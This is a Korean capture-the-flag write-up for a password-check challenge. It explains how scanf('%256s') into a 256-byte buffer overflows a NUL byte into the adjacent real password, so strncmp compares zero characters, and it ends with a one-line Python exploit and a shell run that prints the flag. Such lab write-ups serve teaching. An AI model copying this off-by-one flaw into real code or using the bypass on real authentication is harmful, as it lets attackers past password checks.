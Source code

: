 #### 1. 문제 분석

```C
...
char user_password[256];
char real_password[256];
...
scanf("%256s", user_password);
...
if(!strncmp(user_password, real_password, strlen(real_password))){
        puts("Great! Here is flag :)");
        system("/bin/cat flag");
}
else
        puts("Wrong :(");
```

이번 문제는 단순히 비밀번호를 체크하고 비밀번호가 맞으면 flag를 주는군요.

그런데 문제는 password 파일의 내용물은 모른단 말이죠... 음...

문제의 코드를 자세히 보면 비밀번호를 256바이트 크기의 배열에 입력받고 scanf를 통해 256 글자를 입력 받습니다.

그런데 좀 이상하지 않나요? 분명 문자열은 NULL 값으로 끝나야하는데 256글자를 받으면 NULL값은 없겠군요?...

라고 생각하기 쉬운데 scanf 에서 %s 로 입력받을 경우 입력값의 마지막에 자동으로 NULL값이 붙게됩니다.

자동으로 붙은 이 NULL값은 1바이트 오버플로우 된 것이고, 이 오버플로우된 널값은 바로 근접해있는 real_password 배열을 덮어쓰게됩니다.

따라서 256글자 이상을 비밀번호를 입력하는 경우에는 real_password[0] 값이 NULL값이 되는것이죠!

```[ AAAA...AAA(256글자) ][ \x00... ]```

#### 2. 문제 풀이

풀이 자체는 매우 심플합니다. 256글자 이상 아무글자나 비밀번호로 넣으면 되는것이죠.

256글자 이상이 들어오면 real_password[0]의 값이 NULL이 되기때문에 strlen(real_password)의 값은 0이 되게 되고 따라서 strncmp에서는 비교할 문자열의 길이가 0이므로 그냥 패스되게 됩니다.


#### 3. Exploit Code
```Python
# exploit.py
print "A"*256
```

```Shell
$ (python exploit.py; cat) | ./auth
password: do not bruteforce...
Great! Here is flag :)
0ff-by-0n3 0v3rflOw can be d4ngerous!
```

